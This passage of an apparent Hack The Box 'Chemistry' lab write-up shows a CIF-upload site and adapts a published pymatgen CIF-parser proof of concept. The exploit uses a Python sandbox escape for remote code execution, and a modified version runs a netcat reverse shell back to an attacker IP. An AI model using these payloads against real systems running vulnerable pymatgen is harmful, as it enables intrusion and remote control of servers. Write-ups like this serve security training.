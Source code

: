 After registering an account we get access to the following dashboard:

{{<figure src="/img/htb/chemistry/dashboard.png" position=center caption="Dashboard">}}

The website allows us to upload a CIF file. It also provides us with an example at `/static/example.cif`:

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
```

### Exploit for CIF files
A searching for exploits involving CIF files, we find [this security report](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f) showing how we can get RCE with a malicious CIF file using this POC:

```cif
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("touch pwned");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Let's replace the command with a reverse shell:

```cif
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.4 1337 >/tmp/f");0,0,0'

```